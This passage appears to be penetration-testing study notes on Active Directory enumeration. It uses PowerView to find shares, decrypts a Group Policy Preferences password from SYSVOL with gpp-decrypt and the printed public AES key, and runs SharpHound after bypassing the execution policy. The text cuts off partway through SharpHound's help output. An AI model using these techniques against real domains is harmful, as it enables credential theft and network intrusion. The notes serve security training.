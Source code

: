### Enumerating Domain Shares

Enumeration with PowerView:

```powershell
PS C:\Tools> Find-DomainShare
# We could use the -CheckShareAccess flag to display shares only available to us too.
```

Start by enumerating sysvol shares as it may include files/folders that reside on the DC itself. This share is typically used for various domain policies and scripts. By default this share is mapped to **%SystemRoot%\SYSVOL\Sysvol\\\<domain-name>**. Historically, sysadmins would change local workstation passwords through _Group Policy Preferences (GPP)_. These GPP-stored passwords are encrypted with AES-256, but the private key has been posted on [MSDN](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). This key can thus be used to decrypt the encrypted passwords found.

{% hint style="info" %}
The 32-byte AES key is as follows:

```
 4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8
 f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
{% endhint %}

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```

## Active Directory - Automated Enumeration

### Collecting Data with SharpHound

_SharpHound_ is the companion data collection tool to _BloodHound_. It is written in C# and uses Windows API functions and LDAP namespace functions. It is available to us in a few different formats: compiling it ourselves, using an already compiled binary, or use it as a PowerShell script.

Using SharpHound as a PowerShell script:

{% code overflow="wrap" %}
```powershell
PS C:\Users\stephanie> cd .\Downloads\
PS C:\Users\stephanie\Downloads> powershell -ep bypass
PS C:\Users\stephanie\Downloads> Import-Module .\Sharphound.ps1
PS C:\Users\stephanie\Downloads> Get-Help Invoke-Bloodhound
NAME
    Invoke-BloodHound

SYNOPSIS
    Runs the BloodHound C# Ingestor using reflection. The assembly is stored in this file.


SYNTAX
    Invoke-BloodHound [-CollectionMethods <String[]>] [-Domain <String>] [-SearchForest] [-Stealth] [-LdapFilter
    <String>] [-DistinguishedName <String>] [-ComputerFile <String>] [-OutputDirectory <String>] [-OutputPrefix
    <String>] [-CacheName <String>] [-MemCache] [-RebuildCache] [-RandomFilenames] [-ZipFilename <String>] [-NoZip]
    [-ZipPassword <String>] [-TrackComputerCalls] [-PrettyPrint] [-LdapUsername <String>] [-LdapPassword <String>]
    [-DomainController <String>] [-LdapPort <Int32>] [-SecureLdap] [-DisableCertVerification] [-DisableSigning]
    [-SkipPortCheck] [-PortCheckTimeout <Int32>] [-SkipPasswordCheck] [-ExcludeDCs] [-Throttle <Int32>] [-Jitter
```